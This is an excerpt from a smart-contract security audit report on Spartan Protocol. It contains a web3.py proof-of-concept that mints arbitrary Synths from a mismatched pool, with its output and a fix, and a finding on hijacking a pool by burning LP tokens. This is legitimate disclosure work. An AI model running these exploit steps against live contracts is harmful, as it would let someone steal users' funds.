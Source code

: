 Here's a web3.py script of minting arbitrary `Synth` in a pool.
For simplicity, two pools are set with the assumption that link is 10x expensive than dai.

```python
sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(link_pool.address, sparta_amount).transact({'from': user})
link_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from link pool:', after_link_synth - initail_link_synth)

sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(dai_pool.address, sparta_amount).transact({'from': user})
dai_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from dai pool:', after_link_synth - initail_link_synth)

```

The log of the above script
```solidity
get link synth amount from link pool: 97078046905036524413
get link synth amount from dai pool: 970780469050365244136
```
Recommend Checking the provided synth's underlying token in `mintSynth`
```solidity
require(iSYNTH(synthOut).LayerONE() == TOKEN, "invalid synth");
```

**[verifyfirst (Spartan) confirmed](https://github.com/code-423n4/2021-07-spartan-findings/issues/20#issuecomment-883837548):**
 > We agree and appreciate this finding being valid high risk issue.

## [[H-10] Hijack token pool by burning liquidity token](https://github.com/code-423n4/2021-07-spartan-findings/issues/38)
_Submitted by jonah1005_

`Pool` allows users to burn lp tokens without withdrawing the tokens. This allows the hacker to mutate the pools' rate to a point that no one can get any lp token anymore (even if depositing token).

The liquidity tokens are calculated at `Utils:calcLiquidityUnits`
```solidity
// units = ((P (t B + T b))/(2 T B)) * slipAdjustment
// P * (part1 + part2) / (part3) * slipAdjustment
uint slipAdjustment = getSlipAdustment(b, B, t, T);
uint part1 = t*(B);
uint part2 = T*(b);
uint part3 = T*(B)*(2);
uint _units = (P * (part1 + (part2))) / (part3);
return _units * slipAdjustment / one;  // Divide by 10**18
```
where `P` stands for `totalSupply` of current Pool. If `P` is too small (e.g, 1) then all the units would be rounding to 0.
